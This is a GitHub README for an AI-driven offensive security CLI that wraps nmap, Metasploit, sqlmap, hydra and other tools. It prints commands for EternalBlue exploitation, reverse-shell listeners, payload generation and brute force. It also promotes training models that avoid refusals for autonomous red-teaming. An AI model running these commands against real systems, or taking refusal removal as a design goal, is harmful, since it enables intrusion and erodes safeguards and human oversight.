

<p align="center">
  
</p>

<p align="center">
  
  
  
</p>

---

## What is cyberspace?

**cyberspace is the brain for your cyberdeck.**

A cyberdeck is a portable, custom-built hacking computer. cyberspace is the
software that runs on it — an AI assistant that talks to you in plain English and
does the work of an entire security team.

You tell it what you want to do (for example: *"scan my home network and tell me
what's vulnerable"*). It figures out which tools to use, runs them, and explains
the results in a way you can understand — even if you're not a security expert.

> **Built for:** the cyberdeck you're manufacturing. It runs on a Raspberry Pi 5,
> a laptop, or anything that runs Linux, macOS, or Windows.

## How it works: one Cyber Kill Chain workspace

Cyberspace organizes every request with the seven chronological stages of the
Cyber Kill Chain. Describe the objective in plain language; Cyberspace identifies the
relevant stage, selects scoped tools, shows each action, and reports in that stage's language.

| Stage | What Cyberspace does |
|---|---|
| **1. Reconnaissance** 🔍 | Maps the authorized attack surface and cross-checks hosts, ports, services, DNS, and public information. |
| **2. Weaponization** 🦠 | Matches findings to suitable tests and prepares payloads or test artifacts. |
| **3. Delivery** 📧 | Handles the authorized delivery path, including controlled web interaction. |
| **4. Exploitation** 💥 | Validates whether an identified weakness can be triggered within scope. |
| **5. Installation** 📦 | Handles approved persistence, hardware, router, and implant-oriented lab work. |
| **6. Command and Control (C2)** 📡 | Works with approved covert-channel, proxy, Tor, and callback tasks. |
| **7. Actions on Objectives** 🎯 | Produces findings and reports and records project memory for later cross-reference. |

```text
you → Reconnaissance → Weaponization → Delivery → Exploitation
    → Installation → Command and Control (C2) → Actions on Objectives
```

A request need not traverse every stage. Cyberspace enters the matching stage while
retaining chronological context from earlier work in the active project.

### A prompt library, or no trace

Running `cyberspace` opens the workspace. Every Swarm launch asks whether to continue
saving into the active project, view/open a project folder, create one, or enter
**Ghost Mode**, which saves neither prompts nor outcomes. Recent project entries become
bounded **Actions-on-Objectives memory**, allowing earlier findings to be cross-referenced
without mixing separate engagements.

### Visible execution and resilient models

The CLI shows the Kill Chain stage, delegated work, tool calls, result progress, and
model failover. Credential, quota, and network failures remain visible.

## Installation

Cyberspace is distributed as a standalone executable. **Python, pip, cloning, and virtual
environments are not required.** Each installer detects Intel/ARM, downloads the matching
GitHub release, verifies its SHA-256 checksum, and adds `cyberspace` to your user PATH.

### macOS, Linux, Raspberry Pi, or WSL

```bash
curl -fsSL https://raw.githubusercontent.com/nim2natty/cyberspace/main/installer/install.sh | bash
```

### Windows (PowerShell)

```powershell
irm https://raw.githubusercontent.com/nim2natty/cyberspace/main/installer/install.ps1 | iex
```

Open a new terminal, then run:

```bash
cyberspace setup                    # connect an AI once
cyberspace doctor                   # inspect optional host tools
cyberspace iceberg browser-install # download Iceberg's Chromium engine once
cyberspace                          # open the workspace
```

Cloud API keys and Tor control credentials are stored in macOS Keychain, Windows
Credential Locker, or Linux Secret Service—not in JSON files. On headless Linux without
a native secret service, set the provider environment variable (such as
`OPENAI_API_KEY`) instead; Cyberspace will not create a plaintext fallback.

Mullvad, Tor, nmap, and other utilities remain optional host applications. Install only
the capabilities you need from their official source or operating-system package manager;
`cyberspace doctor` reports what is available.

Every platform can also run by itself in scoped AI mode. The runtime exposes only that
platform—or one exact tool—to the configured Cyberspace provider:

```bash
cyberspace ai iceberg check my privacy posture
cyberspace ai airbender map my authorized home network
cyberspace ai robodaddy build a coding assistant
cyberspace ai robodaddy.plan estimate a cheap support model
```

> **Windows ARM note:** the standalone CLI, privacy audit, VPN/DNS controls, and browser
> are supported. The optional Streamlit `iceberg gui` is omitted because its `pyarrow`
> dependency does not publish a Windows ARM wheel.

### Upgrade and uninstall

Run the same installer again to replace the executable with the latest verified release.

```bash
cyberspace uninstall              # keep settings and projects
cyberspace uninstall --purge-data # remove settings and projects too
```

### Developers only

Source contributors can use their preferred Python development tooling. End users should
always use the standalone installers above.

---

### Verify it works

```bash
cyberspace --version     # should print the installed version
cyberspace doctor        # green check marks = ready to go
```

If upgrading from an old source installation, run the standalone installer once, open a
new terminal, and remove the old checkout after confirming `cyberspace --version` works.

Advanced image builders can use [`installer/docker/Dockerfile`](installer/docker/Dockerfile)
or [`installer/rpi-build/`](installer/rpi-build/); neither is required for normal use.

---

## Connect any LLM

cyberspace isn't locked to one AI provider. Run `cyberspace setup` and pick from
the built-in catalog — you only ever type a number + your API key. See them all
without configuring anything:

```bash
cyberspace providers        # list every LLM you can connect
```

| # | Provider | Style | Key? | Best for |
|---|---|---|---|---|
| 1 | **Ollama** | native | no | local, free, offline (great for the Pi) |
| 2 | **OpenAI** (GPT) | openai-compat | yes | strong, reliable tool-calling |
| 3 | **Anthropic** (Claude) | native | yes | excellent reasoning |
| 4 | **z.ai** (GLM) | openai-compat | yes | GLM 5.2 with function calling |
| 5 | **DeepSeek** | openai-compat | yes | great-value reasoning models |
| 6 | **Groq** | openai-compat | yes | extremely fast inference |
| 7 | **OpenRouter** | openai-compat | yes | one key → OpenAI/Claude/Gemini/Llama/free |
| 8 | **Together AI** | openai-compat | yes | hosted open models |
| 9 | **Mistral** | openai-compat | yes | — |
| 10 | **xAI** (Grok) | openai-compat | yes | — |
| 11 | **Google Gemini** | openai-compat | yes | — |
| 12 | **Perplexity** | openai-compat | yes | models with live web access |
| 13–14 | LM Studio / vLLM | openai-compat | no | local servers |
| 15 | **RoboDaddy** | openai-compat | no | a model *you* trained (see below) |
| 16 | **Custom** | openai-compat | optional | any OpenAI-compatible endpoint |

**Connecting a key takes one line.** If your key is already in an environment
variable (`OPENAI_API_KEY`, `ZAI_API_KEY`, `GROQ_API_KEY`, `DEEPSEEK_API_KEY`, …),
`cyberspace setup` finds it automatically — you don't even type it.

```bash
cyberspace setup            # pick a provider + paste your key
cyberspace setup --force    # reconfigure / switch providers later
cyberspace                  # open the workspace
```

### Use a model you trained with RoboDaddy

Train a model with RoboDaddy, serve it locally, then connect it as your AI brain:

```bash
cyberspace robodaddy plan "offensive pent security"
cyberspace robodaddy train offensive_pentest --provider dry-run   # free dry-run
cyberspace robodaddy serve offensive_pentest-d1 --target ollama    # serve it
cyberspace setup            # choose RoboDaddy by name and select your served model
# - or -
cyberspace robodaddy use offensive_pentest-d1                      # set it directly
```

---

## The easiest way: let the AI do everything

```bash
cyberspace
```

This opens the workspace. Choose **Swarm mode**, select a saved project or Ghost Mode,
then type what you want in plain English:

```
cyberspace objective> scan 192.168.1.0/24, find web apps, test them, then write a report
```

Cyberspace maps that objective into the relevant Cyber Kill Chain stages, shows each
tool action live, and carries findings forward to Actions on Objectives.
You watch the work happen, then get a summary.

**But you can also run each tool yourself.** Here's how to use every part of the
system directly from the command line.

---

## Walkthrough: each platform

### 1. AirBender 📶 — fast, cross-checked Reconnaissance

AirBender finds every device on a network and figures out what each one is running.
It wraps tools like `nmap` (a network scanner) and chains them together. For local
networks, `local-recon` runs nmap host discovery, netdiscover, and arp-scan
concurrently when installed, merges their device lists, and enriches the result with
ports and service versions. Missing Pi packages degrade gracefully.

```bash
cyberspace airbender local-recon 192.168.1.0/24
```

```bash
# STEP 1: Check what's installed
cyberspace airbender status

# STEP 2: Find every device on your network (replace with your network range)
cyberspace airbender ping-sweep 192.168.1.0/24

# STEP 3: Scan a specific device for open doors (ports)
cyberspace airbender nmap 192.168.1.50

# STEP 4: Run the full pipeline — find devices, scan ports, identify services
cyberspace airbender recon 192.168.1.0/24

# STEP 5: Quick scan — find devices, blast all ports fast
cyberspace airbender fast-scan 192.168.1.0/24

# STEP 6: Find web servers specifically
cyberspace airbender web-hunt 192.168.1.0/24

# Other single tools:
cyberspace airbender whois example.com        # who owns this domain
cyberspace airbender dig example.com           # DNS lookup
cyberspace airbender traceroute 8.8.8.8        # trace the path to a host
cyberspace airbender netdiscover 192.168.1.0/24  # ARP-based device discovery
```

<details>
<summary><b>Advanced: custom pipelines</b></summary>

```bash
# Build your own chain — each step feeds the next:
cyberspace airbender chain 192.168.1.0/24 --steps "ping-sweep->nmap-top->service-detect"

# See all available pipeline steps:
cyberspace airbender pipelines

# WiFi monitoring (needs a WiFi adapter in monitor mode):
cyberspace airbender airmon wlan0 start     # enable monitor mode
cyberspace airbender airodump wlan0mon      # scan for nearby WiFi networks
```
</details>

---

### 2. ShadowDragon 🐍 — breaking into things

ShadowDragon tests web applications for weaknesses and can launch attacks using
the full Kali Linux toolkit — including Metasploit.

```bash
# STEP 1: Check what's installed
cyberspace shadowdragon catalog          # list all 70+ tools it can run

# STEP 2: Identify what a web app is built with
cyberspace shadowdragon whatweb http://10.10.10.5

# STEP 3: Find hidden pages/directories
cyberspace shadowdragon gobuster http://10.10.10.5

# STEP 4: Scan for known vulnerabilities
cyberspace shadowdragon nikto http://10.10.10.5

# STEP 5: Search for public exploits
cyberspace shadowdragon searchsploit "Apache 2.4"

# STEP 6: Test for SQL injection
cyberspace shadowdragon sqlmap http://10.10.10.5/login.php

# STEP 7: Run the full attack chain — one command does all of the above + more
cyberspace shadowdragon full-assault http://10.10.10.5
```

<details>
<summary><b>Metasploit (the exploit framework)</b></summary>

```bash
# Search for an exploit module
cyberspace shadowdragon msf search eternalblue

# Run an exploit (replace module + target):
cyberspace shadowdragon msf run exploit/windows/smb/ms17_010_eternalblue \
    --options "RHOSTS=10.10.10.5" --lhost 10.10.10.1

# Start a listener to catch a reverse shell:
cyberspace shadowdragon msf handler --lhost 0.0.0.0 --lport 4444

# Generate a payload (malware for testing):
cyberspace shadowdragon msf payload --lhost 10.10.10.1 --lport 4444
```
</details>

<details>
<summary><b>Password cracking</b></summary>

```bash
# Crack a hash file with John the Ripper:
cyberspace shadowdragon john hashes.txt

# Crack with hashcat (GPU-accelerated):
cyberspace shadowdragon hashcat "e99a18c428cb38d5f260853678922e03"

# Brute-force a login (SSH, FTP, etc.):
cyberspace shadowdragon hydra 10.10.10.5 --service ssh
```
</details>

<details>
<summary><b>Reconnaissance and OSINT</b></summary>

```bash
# Gather emails, subdomains, and more for a domain:
cyberspace shadowdragon theharvester example.com

# Run ANY Kali tool that isn't networking:
cyberspace shadowdragon run "nuclei" "-u http://10.10.10.5"
cyberspace shadowdragon run "wpscan" "--url http://10.10.10.5"
```
</details>

---

### 3. Iceberg 🧊 — whole-device privacy

Iceberg is one privacy platform: passive system vulnerability checks with a solution for
every finding, Mullvad VPN and filtered DNS controls, Tor search/browsing, and hardened
browser profiles. Audits cover detectable supported checks and cannot guarantee that every
possible vulnerability was found.

```bash
# STEP 1: Audit the device and get prioritized solutions
cyberspace iceberg check

# STEP 2: Connect Mullvad and prevent traffic outside the tunnel
cyberspace iceberg vpn status
cyberspace iceberg vpn connect
cyberspace iceberg vpn lockdown-on

# STEP 3: Enable Mullvad's tracker, ad, and malware-blocking DNS
cyberspace iceberg dns protect

# STEP 4: Configure and search regular or Tor sources
cyberspace iceberg config
cyberspace iceberg find "latest ransomware groups" --mode bright
cyberspace iceberg find "leaked credentials ACME corp" --mode dark

# STEP 5: Open a Tor-routed browser or the graphic interface
cyberspace iceberg private-browse https://check.torproject.org --mode dark
cyberspace iceberg gui
```

<details>
<summary><b>Privacy browser profiles</b></summary>

```bash
# Create a fake browser identity:
cyberspace iceberg profile new myprofile --persona win-chrome

# List your identities:
cyberspace iceberg profile list

# Browse with a fake identity (hides your real fingerprint):
cyberspace iceberg browse -p myprofile https://duckduckgo.com

# System-level privacy:
cyberspace iceberg rotate-mac --iface eth0    # change your MAC address
cyberspace iceberg set-hostname anon-host     # change your hostname
cyberspace iceberg check                       # quick privacy posture check
```
</details>

---

### 4. StickEm 🔌 — controlling hardware

StickEm drives three physical devices from one place: your ESP32 WiFi board, your
FT232 serial cable, and your OpenWrt router.

```bash
# STEP 1: List connected serial devices
cyberspace stickem ports

# STEP 2: Tell it which port your ESP32 board is on
cyberspace stickem set-esp32 /dev/ttyUSB0

# STEP 3: Tell it which port your FT232 cable is on
cyberspace stickem set-ft232 /dev/ttyUSB1

# STEP 4: Tell it your router's IP address
cyberspace stickem set-router 192.168.1.1 --type openwrt-one

# STEP 5: See all three devices at once
cyberspace stickem hardware
```

<details>
<summary><b>WiFi attacks (ESP32 Marauder)</b></summary>

```bash
# Scan for nearby WiFi networks:
cyberspace stickem marauder scanap

# See the full list of Marauder commands:
cyberspace stickem marauder help

# Open a raw serial console on the FT232 (for routers/IoT devices):
cyberspace stickem console
```
</details>

<details>
<summary><b>Router control (OpenWrt)</b></summary>

```bash
# Check router status (uptime, WiFi, interfaces):
cyberspace stickem router status

# Show current WiFi configuration:
cyberspace stickem router wifi

# List connected devices (DHCP leases):
cyberspace stickem router leases

# Change the WiFi network name:
cyberspace stickem router set-ssid MyLabNetwork

# Ping a device FROM the router:
cyberspace stickem router ping 10.10.10.5

# List installed packages on the router:
cyberspace stickem router packages
```
</details>

---

### 5. RoboDaddy 🤖 — design and train your own open source model

RoboDaddy lets you **design a model with a full set of parameters** and then fine-tune
an open-weights base on a dataset **you pick**. You can browse Hugging Face data
(curated catalog + live discovery) and pick **any** dataset on the Hub, set your own
training parameters (or use a built-in profile), set the **guardrails applied before
use**, dispatch a QLoRA training job to a Vast.ai instance, then serve the finished
model through an Ollama-compatible endpoint and plug it back in as your AI brain.

Nothing about RoboDaddy artificially limits capability. You can build a **cyber bot**
(authorized red-team / adversary emulation or defense) or a **fully custom bot**:

- **Cyber bot** — attunes training to **full offensive reasoning**, realistic
  **adversary modeling**, and **attack-path reasoning**: analyze footholds, explore
  exploitability, chain findings, and reason through full multi-step attack paths,
  grounded in real attack vectors and operator-inspired, multi-turn scenarios. This is
  how it avoids the blind spots and refusals that break workflows and distort analysis.
- **Guardrails you set before use** — declare your authorized scope, pick a guardrail
  level, and list allowed/denied categories. The same reasoning then supports
  **autonomous red-team operations and deep defensive workflows** with accuracy. (A hard
  safety floor — CSAM, WMD instructions, real-world harm to non-consenting parties — is
  always enforced and is not configurable.)

> For LEGAL, authorized use. Training uses public datasets under their own licenses;
> respect each dataset's terms.

```bash
# STEP 0: See the full set of parameters you can set (with a built-in guide)
cyberspace robodaddy parameters guide
cyberspace robodaddy parameters profiles        # cyber_redteam | cyber_defensive | custom_blank
cyberspace robodaddy parameters set --profile cyber_redteam
cyberspace robodaddy parameters set --key epochs --value 5
cyberspace robodaddy parameters set --key guardrails.guardrail_level --value red-team-engagement

# STEP 1: Build a cyber bot (red-team / adversary emulation) — interactive, guided
cyberspace robodaddy cyber redteam
cyberspace robodaddy cyber defensive

# STEP 2: Or build a fully custom bot with whatever parameters you choose — no limits
cyberspace robodaddy custom "coding assistant"

# STEP 3: Browse Hugging Face data and pick datasets (curated + live discovery)
cyberspace robodaddy datasets "offensive pen security"
cyberspace robodaddy datasets "attack path reasoning"

# STEP 4: Start the recommended guided flow (any use case)
cyberspace robodaddy build "coding assistant"
cyberspace robodaddy usecases
```

Training launches as a detached worker by default. **After RoboDaddy says it is queued,
you may close the terminal and the job continues.** Use `--foreground` with the advanced
`train` command only when you intentionally want the terminal attached. Paid Vast.ai
training continues on the rented cloud instance; monitor the included Vast console link.
Price and duration are estimates, and no paid GPU is rented without explicit confirmation.

```bash
# Advanced manual plan + background training (dry-run by default, no cost)
cyberspace robodaddy plan "offensive pen security"
cyberspace robodaddy gpus
cyberspace robodaddy instances --gpu RTX_4090
cyberspace robodaddy train offensive_pentest --provider dry-run
cyberspace robodaddy dashboard          # snapshot: queued/training/done/failed
cyberspace robodaddy dashboard --watch  # live view; Ctrl-C closes only the dashboard
cyberspace robodaddy jobs               # compact job table
cyberspace robodaddy models             # see your trained models

# Serve the model and plug it back into the system as the new brain
cyberspace robodaddy serve offensive_pentest-d1 --target ollama
cyberspace robodaddy connect offensive_pentest-d1

# Or ask the scoped AI to do it:
cyberspace ai robodaddy connect my served model to Cyberspace Swarm
```

#### Model API keys

RoboDaddy stores generated key secrets in macOS Keychain, Windows Credential Locker, or
Linux Secret Service. JSON contains only prefixes and metadata.

```bash
cyberspace robodaddy keys list
cyberspace robodaddy keys new offensive_pentest-d1
cyberspace robodaddy keys show rbd_example  # explicit secret retrieval
cyberspace robodaddy keys revoke rbd_example
cyberspace robodaddy provider-key vastai    # securely save a Vast.ai key
```

These are credentials for a served-model integration. The serving gateway must enforce
them; a raw local Ollama endpoint does not become an authentication gateway merely because
a key record was created.

<details>
<summary><b>Real cloud training (costs money)</b></summary>

```bash
# Save your Vast.ai API key in the native credential store:
cyberspace robodaddy provider-key vastai

# Find a GPU to rent:
cyberspace robodaddy instances --gpu RTX_4090

# Rent it and train for real (it will confirm the cost first):
cyberspace robodaddy train offensive_pentest --provider vastai --offer 123456
```
</details>

---

## Projects — your Actions-on-Objectives prompt library

Projects let you keep separate prompt histories for different tasks. When a
project is **active**, every prompt you send to the AI (in Swarm or agent mode)
is automatically saved to that project's folder and becomes scoped Kill Chain memory.
Later you can open the folder
and see every prompt you used.

```bash
# Create a new project (this also makes it active):
cyberspace project create "surveillance in chicago" --desc "OSINT research"

# Now every prompt you send to the AI gets saved to that project.
# When you're done, list all your projects:
cyberspace project list

# Open a project to see all its saved prompts:
cyberspace project open "surveillance in chicago"

# Switch to a different project:
cyberspace project use "home lab pentest"

# Check which project is currently active:
cyberspace project status

# Stop saving prompts (deactivate the current project):
cyberspace project close

# Delete a project and all its prompts:
cyberspace project delete "surveillance in chicago"
```

Projects are stored as folders under `~/.cyberspace/projects/`. Each one has a
`prompts.jsonl` file with every prompt and the AI's response, timestamped. Choose
Ghost Mode when Swarm opens if a session should not be written to this library.

---

## Other useful commands

```bash
# The AI remembers you — see what it's learned:
cyberspace memory show

# See providers or change the AI brain at any time:
cyberspace providers
cyberspace setup --force

# Generate a report from everything you've done:
cyberspace report --out my_report.md

# Check what's installed and ready:
cyberspace doctor

# See all platforms and all tools:
cyberspace modules
cyberspace tools
```

## The pieces at a glance

| Platform | What it is | Key command |
|---|---|---|
| **AirBender** 📶 | Reconnaissance and cross-checked network discovery | `cyberspace airbender local-recon 192.168.1.0/24` |
| **ShadowDragon** 🐍 | Web and exploit tools | `cyberspace shadowdragon full-assault http://target` |
| **Iceberg** 🧊 | System audit + Mullvad VPN + private DNS + Tor + privacy browser | `cyberspace iceberg check` |
| **StickEm** 🔌 | Hardware (WiFi + router + serial) | `cyberspace stickem hardware` |
| **RoboDaddy** 🤖 | Custom AI trainer | `cyberspace robodaddy plan "your use case"` |

## Legal use

For authorized security testing and education only. Use it on your own network,
your own devices, your own lab — or systems you have written permission to test.
Wireless and Tor features should only target equipment and networks you own.

## License

MIT — see [LICENSE](LICENSE).
